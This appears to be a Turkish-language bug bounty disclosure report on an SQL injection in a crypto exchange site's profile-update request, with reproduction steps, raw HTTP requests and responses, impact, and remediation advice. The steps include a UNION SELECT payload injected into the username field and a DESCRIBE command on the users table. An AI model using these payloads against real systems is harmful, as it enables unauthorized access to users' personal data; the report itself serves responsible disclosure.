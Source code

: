# SQL Injection - bitexen.com

## Araştırmacı bilgileri

Merhaba, adım Zeynep. Bana zeynep@example.com adresinden ulaşabilirsiniz. HackerOne kullanıcı adım "zeynep".

## Bulgu Tanımı ve Özet

Web uygulaması üzerinden giden isteği Burp Suite ile değiştirerek veritabanında SQL komutları çalıştırabildim. Veritabanındaki tabloların şemalarını kontrol ettim ama hassas veri bulunabileceği düşüncesiyle verilere erişmedim. Tablo yapılarında kullanıcı maili ve telefonu gibi alanlar vardı.

## Etkilenen URL / Uygulama

- Domain bitexen.com

## Risk Kategorisi

- Risk: Kritik
- Risk sebebi: Hassas kullanıcı bilgilerinin (kimlik verisi, adres, telefon) açığa çıkması
- CVSS v3 skoru: 9.8 CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Tekrarlama Adımları / PoC

- Bitexen hesabına giriş yapılıp kullanıcı bilgileri değiştirilir ve 'Kaydet' butonuna basılır.
- Giden POST verisindeki `username=example` içine `' UNION SELECT sum(columnname ) from tablename --` yerleştirilir.
- İsteğin son hali `username=example' UNION SELECT sum(columnname ) from tablename --` olacak şekilde gönderilir.

- Orijinal İstek

        POST https://bitexen.com/uygulama/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data

- Orijinal Cevap

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        OK

- Değiştirilen İstek

        POST https://bitexen.com/uygulama/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data' UNION SELECT sum(columnname ) from tablename --

- Değiştirilen Cevap

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        5

- Aynı istek Burp Repeater ile bu sefer `DESCRIBE bitexen_db.users` komutu girilerek gönderilir. Veritabanına ve tablolara erişim yapılabildiği görülmektedir.

        +-------+--------------+------+-----+---------+-------+
        | Field | Type         | Null | Key | Default | Extra |
        +-------+--------------+------+-----+---------+-------+
        | id    | int(11)      | YES  | MUL | NULL    |       |
        | Name  | varchar(100) | YES  | MUL | NULL    |       |
        +-------+--------------+------+-----+---------+-------+
        2 rows in set (0.05 sec)

Ekran görüntüleri:

- Görüntü 1
- Görüntü 2

## Etki

Tüm kullanıcıların e-posta adreslerine ve telefon numaralarına erişilebiliyor. Parolalar bulunmadığı için hesap erişimi mümkün değil ancak elde edilebilecek veriler kritik önemde. Ayrıca, saldırgan tarafından veriler düzenlenebilir veya silinebilir.

## Çözüm Önerisi

Web uygulamasından yapılan istekler SQL komutuna dönüştürülmeden önce temizlenmeli ve tehlikeli istekler reddedilmeli. Ayrıca erişim sağlayan SQL servisinin yetkileri limitlenmeli.

Kaynaklar:

- <https://www.w3schools.com/sql/sql_injection.asp>
- <https://portswigger.net/web-security/sql-injection>
- <https://owasp.org/www-community/attacks/SQL_Injection>
- <https://www.acunetix.com/websitesecurity/sql-injection/>
